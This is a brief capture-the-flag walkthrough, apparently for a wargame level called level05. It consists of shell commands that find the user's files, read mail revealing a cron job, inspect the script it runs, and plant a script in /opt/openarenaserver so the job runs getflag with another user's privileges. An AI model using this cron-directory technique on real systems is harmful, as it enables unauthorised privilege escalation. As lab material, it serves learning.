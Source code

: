 # Check all files named after our user
`find / -name "*level05" 2>/dev/null`

# Check our mail and find the crontab
`cat /var/mail/level05`

# Check the script
`cat /usr/sbin/openarenaserver`

# Create a custom script to run getflag as flag05
`echo "/bin/getflag > /tmp/hack" > /opt/openarenaserver/hack`

# Wait for the scitp to execute and get the flag
